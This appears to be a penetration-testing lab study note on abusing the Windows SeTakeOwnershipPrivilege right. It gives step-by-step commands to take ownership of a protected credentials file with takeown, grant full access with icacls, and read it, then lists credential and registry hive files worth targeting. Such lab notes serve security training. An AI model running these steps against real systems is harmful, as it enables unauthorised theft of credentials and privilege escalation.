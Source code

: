 **[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes**
The setting can be set in Group Policy under:

- `Computer Configuration` ⇾ `Windows Settings` ⇾ `Security Settings` ⇾ `Local Policies` ⇾ `User Rights Assignment`

### leveraging the permission
```
whoami /priv
```
![[Pasted image 20241010142157.png]]

### Enabling 

[[Enable-Privilege.ps1]] - Create the file, load it into import-module, run it
```powershell-session
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv
```


### Choose target file
Find a file that you want to take control over, cred file, password file etc
```powershell-session
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
```

### Check ownership
```powershell-session
cmd /c dir /q 'C:\Department Shares\Private\IT'
```


### Taking Ownership of the File
use [[takedown]]
```powershell-session
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
```

### confirm ownership
```powershell-session
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

```

If cant read still then modify ACL
### Modifying the File ACL

```powershell-session
cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```
Change ACL
```powershell-session
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

### Read the file
```powershell-session
cat 'C:\Department Shares\Private\IT\cred.txt'
```


## When to Use?

#### Files of Interest

Some local files of interest may include:

SeTakeOwnershipPrivilege

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

We may also come across `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.
